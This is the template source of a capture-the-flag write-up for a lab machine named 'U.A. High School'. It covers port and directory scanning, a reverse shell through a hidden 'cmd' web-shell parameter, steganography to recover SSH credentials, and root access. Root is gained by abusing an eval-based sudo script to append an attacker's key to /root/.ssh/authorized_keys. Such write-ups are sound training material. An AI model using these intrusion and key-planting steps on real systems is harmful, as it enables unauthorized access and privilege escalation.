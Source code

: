 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start by scanning the target for open ports.")}}

{{console("nmap -T5 -p- -sV -sC 10.10.123.111", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-19 12:47 CET
Warning: 10.10.123.111 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.123.111
Host is up (0.15s latency).
Not shown: 88 closed tcp ports (conn-refused)
PORT   STATE    SERVICE     VERSION
22/tcp open     ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 58:2f:ec:23:ba:a9:fe:81:8a:8e:2d:d8:91:21:d2:76 (RSA)
|   256 9d:f2:63:fd:7c:f3:24:62:47:8a:fb:08:b2:29:e2:b4 (ECDSA)
|_  256 62:d8:f8:c9:60:0f:70:1f:6e:11:ab:a0:33:79:b5:5d (ED25519)
80/tcp open     http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: U.A. High School
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel")}}

{{text("The scan reveals two open ports: ")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("Next, we proceed to examine the website hosted on port 80.")}}

{{image("../../static/writeups/uahighschool/images/000001.jpg")}}

{{text("Inspecting the source code reveals a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/assets</code> directory.")}}

{{image("../../static/writeups/uahighschool/images/000002.jpg")}}

{{text("Navigating to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/assets</code> displays a blank page, which seems unusual.")}}

{{text("Access to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/assets/writeups</code> is forbidden.")}}

{{text("I used a directory-scanning tool to uncover any hidden directories.")}}

{{console("gobuster dir -u http://10.10.123.111/assets/ -w /usr/share/wordlists/dirb/common.txt", "===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.123.111/assets/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/images               (Status: 301) [Size: 322] [--> http://10.10.123.111/assets/images/]
/index.php            (Status: 200) [Size: 0]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================")}}

{{text("This reveals an <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/index.php</code> file.")}}

{{text("Although the file is empty, trying out different parameters in the URL eventually yields a result.")}}

{{image("../../static/writeups/uahighschool/images/000003.jpg")}}

{{text("It appears that the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cmd</code> parameter can accept arguments, returning base64-encoded output.")}}

{{text("Let's try and attempt to get a reverse shell.")}}

{{text("I use the following command from <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code>. Remember to URL encode your payload.")}}

{{image("../../static/writeups/uahighschool/images/000004.jpg")}}

{{text("Passing the encoded payload as a parameter provides us with a reverse shell.")}}

{{image("../../static/writeups/uahighschool/images/000005.jpg")}}

{{header("Shell as deku", "shell-as-deku")}}

{{text("There was a file containing a password in <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/var/www/Hidden_Content</code> directory, but its we don't know what is it for.")}}

{{console("cat passphrase.txt | base64 -d", "AllmightForEver!!!")}}

{{text("Further exploration leads to an unused image file in the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/var/www/html/assets/writeups</code> directory.")}}

{{text("I suspected the password might be for extracting hidden content using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>steghide</code>.")}}

{{text("I Downloaded the image using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>wget 10.10.123.111/assets/writeups/oneforall.jpg</code>.")}}

{{text("Then, I attempted to extract hidden content with the password.")}}

{{console("steghide extract -sf oneforall.jpg", "Enter passphrase: 
steghide: the file format of the file 'oneforall.jpg' is not supported.")}}

{{text("The extraction failed because the file is of a wrong format.")}}

{{text("Viewing the file's hex dump reveals its <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>PNG</code> signature.")}}

{{console("xxd oneforall.jpg | head", "00000000: 8950 4e47 0d0a 1a0a 0000 0001 0100 0001  .PNG............
00000010: 0001 0000 ffdb 0043 0006 0405 0605 0406  .......C........
00000020: 0605 0607 0706 080a 100a 0a09 090a 140e  ................
00000030: 0f0c 1017 1418 1817 1416 161a 1d25 1f1a  .............%..
00000040: 1b23 1c16 1620 2c20 2326 2729 2a29 191f  .#... , #&')*)..
00000050: 2d30 2d28 3025 2829 28ff db00 4301 0707  -0-(0%()(...C...
00000060: 070a 080a 130a 0a13 281a 161a 2828 2828  ........(...((((
00000070: 2828 2828 2828 2828 2828 2828 2828 2828  (((((((((((((((( 
00000080: 2828 2828 2828 2828 2828 2828 2828 2828  (((((((((((((((( 
00000090: 2828 2828 2828 2828 2828 2828 2828 ffc0  ((((((((((((((..")}}

{{text("Changing the file signature to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>JPG</code> allows <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>steghide</code> to extract the hidden content.")}}

{{image("../../static/writeups/uahighschool/images/000006.jpg")}}

{{text("This reveals credentials to log in via <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SSH</code>.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("I checked <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sudo</code> permissions for the user.")}}

{{console("sudo -l", "[sudo] password for deku: 
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh")}}

{{text("We are able to run <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>feedback.sh</code> as any user.")}}

{{text("Let's read this file.")}}

{{console("cat feedback.sh", "#!/bin/bash

echo 'Hello, Welcome to the Report Form       '
echo 'This is a way to report various problems'
echo '    Developed by                        '
echo '        The Technical Department of U.A.'

echo 'Enter your feedback:'
read feedback

if [[ '$feedback' != *'\'* && '$feedback' != *')'* && '$feedback' != *'$('* && '$feedback' != *'|'* && '$feedback' != *'&'* && '$feedback' != *';'* && '$feedback' != *'?'* && '$feedback' != *'!'* && '$feedback' != *'\\'* ]]; then
    echo 'It is This:'
    eval 'echo $feedback'

    echo '$feedback' >> /var/log/feedback.txt
    echo 'Feedback successfully saved.'
else
    echo 'Invalid input. Please provide a valid input.' 
fi
")}}

{{text("It echoes any input we provide, if it doesn't contain any of the blacklisted symbols. We can notice that the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>></code> symbol is permitted, meaning we can use it to write to files.")}}

{{text("We generate a public key using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>ssh-keygen</code>, copy the public key and save it in <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/root/.ssh/authorized_keys</code>")}}

{{console("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILO60uNhTUNMEDTfn5f+qZZDXWg1JcMGtypKRMyIxnn6 kali@kali >> /root/.ssh/authorized_keys")}}

{{image("../../static/writeups/uahighschool/images/000007.jpg")}}

{{text("We now can log in as root by providing our <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id_rsa</code> key.")}}

{{console("ssh root@10.10.123.111 -i id_rsa")}}

{{text("We are able to find the flag in <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/root</code>.")}}

{{image("../../static/writeups/uahighschool/images/000008.jpg")}}

{{script()}}